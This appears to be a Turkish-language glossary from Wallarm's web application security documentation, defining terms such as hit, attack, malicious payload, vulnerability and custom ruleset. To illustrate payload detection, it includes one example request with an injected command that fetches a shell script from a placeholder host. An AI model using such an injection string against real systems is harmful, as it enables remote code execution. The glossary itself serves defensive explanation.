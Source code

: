# Terimler Sözlüğü

Sözlük, platformu daha iyi anlamanız için temel Wallarm varlıklarını kapsamaktadır.

## Hit

Hit, seri hale getirilmiş kötü amaçlı bir istek (orijinal kötü amaçlı istek ve filtreleme düğümü tarafından eklenen meta veriler) anlamına gelir, örneğin:

![Hit örneği](images/user-guides/events/analyze-attack-raw.png)

[Hit parametreleri hakkında detaylar](user-guides/events/check-attack.md#attack-analysis_1)

## Saldırı

Saldırı, tek bir hit veya birden fazla hit'in [gruplandırılmış](user-guides/events/grouping-sampling.md#grouping-of-hits) halidir.

Tek bir hit içeren bir saldırı örneği:

![Bir hit ile saldırı](images/glossary/attack-with-one-hit-example.png)

Birden fazla hit içeren bir saldırı örneği:

![Birçok hit ile saldırı](images/glossary/attack-with-several-hits-example.png)

Saldırıları anlama ve analiz etme hakkında [detaylara](user-guides/events/check-attack.md) bakınız.

## Kötü Amaçlı Yük

Orijinal bir isteğin, aşağıdaki öğeleri içeren kısmıdır:

* Bir istekte tespit edilen saldırı işaretleri. Bir istekte aynı saldırı türünü karakterize eden birden fazla saldırı işareti tespit edilirse, yalnızca ilk işaret yük olarak kaydedilir.
* Saldırı işareti bağlamı. Bağlam, tespit edilen saldırı işaretlerinden önce gelen ve sonrasında gelen sembollerin kümesidir. Yük uzunluğu sınırlı olduğundan, bir saldırı işareti tüm yük uzunluğunda ise bağlam atlanabilir.

Örneğin:

* İstek:

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* Kötü amaçlı yük:

    ```bash
    ;wget+http://s
    ```

    Bu yükte, `;wget+` [RCE](attacks-vulns-list.md#remote-code-execution-rce) saldırı işaretidir ve yükün diğer kısmı saldırı işareti bağlamını oluşturmaktadır.

Saldırı işaretleri, [davranışsal saldırıları](about-wallarm/protecting-against-attacks.md#behavioral-attacks) tespit etmekte kullanılmadığından, davranışsal saldırılar kapsamında gönderilen isteklerin yükleri boştur.

## Güvenlik Açığı

Güvenlik açığı, bir web uygulaması oluşturulurken veya uygulanırken ihmal veya yetersiz bilgi nedeniyle yapılan bir hatadır ve bilgi güvenliği risklerine yol açabilir.

Bilgi güvenliği riskleri şunlardır:

* Yetkisiz veri erişimi; örneğin, kullanıcı verilerini okuma ve değiştirme erişimi.
* Hizmet reddi.
* Veri bozulması ve diğerleri.

İnternet trafiği, güvenlik açıklarını tespit etmek için kullanılabilir; Wallarm'ın diğer işlevleri arasında bu da yer almaktadır.

## Güvenlik Olayı

Güvenlik olayı, bir güvenlik açığının sömürülmesidir. Bir olay, doğrulanmış bir güvenlik açığına yönelik bir [saldırı](#attack)'dır.

Bir olay, tıpkı bir saldırı gibi, sisteminiz dışındaki bir varlıktır ve dış İnternet'in bir özelliğini yansıtır, sistemin kendisini değil. Mevcut güvenlik açıklarına yönelik saldırılar azınlıkta olsa da, bilgi güvenliği açısından son derece önemlidir. Wallarm, mevcut güvenlik açıklarına yönelik saldırıları otomatik olarak tespit eder ve bunları ayrı bir nesne olarak görüntüler – olay.

## Dairesel Kuyruk

Dairesel kuyruk, sanki birbirine bağlıymış gibi tek, sabit boyutlu bir arabellek kullanan bir veri yapısıdır.
[See Wikipedia](https://en.wikipedia.org/wiki/Circular_buffer).

## Özel Kurallar Seti (önceki terim LOM)

Özel kurallar seti, Wallarm Cloud'dan Wallarm düğümleri tarafından indirilen derlenmiş güvenlik kuralları bütünüdür.

Özel kurallar, trafik işleme için bireysel kurallar oluşturmanızı sağlar, örneğin:

* Wallarm Cloud'a yüklemeden önce hassas verileri maskeleme
* Düzenli ifadeye dayalı saldırı göstergeleri oluşturma
* Aktif bir güvenlik açığından yararlanan istekleri engelleyen sanal yama uygulama
* Belirli isteklerde saldırı tespitini devre dışı bırakma vb.

Özel kurallar seti varsayılan olarak boş değildir; Cloud'da kayıtlı tüm müşteriler için oluşturulan kuralları içerir, örneğin [**Ayarlar → Genel** sekmesindeki](admin-en/configure-wallarm-mode.md#general-filtration-rule-in-wallarm-console) filtreleme modu kuralı.

[Özel kurallar seti hakkında daha fazla detay](user-guides/rules/rules.md)

## Geçersiz İstek

Filtreleme düğümü tarafından kontrol edilen ve LOM kurallarıyla eşleşmeyen istek.

## Reverse Proxy

Reverse Proxy, bir istemci adına bir sunucudan kaynakları alıp, bu kaynakları Web sunucusundan geliyormuş gibi istemciye dönen bir proxy sunucusu türüdür.
[See Wikipedia](https://en.wikipedia.org/wiki/Reverse_proxy).

## Certificate Authority

Certificate Authority, dijital sertifikalar düzenleyen bir varlıktır.
[See Wikipedia](https://en.wikipedia.org/wiki/Certificate_authority).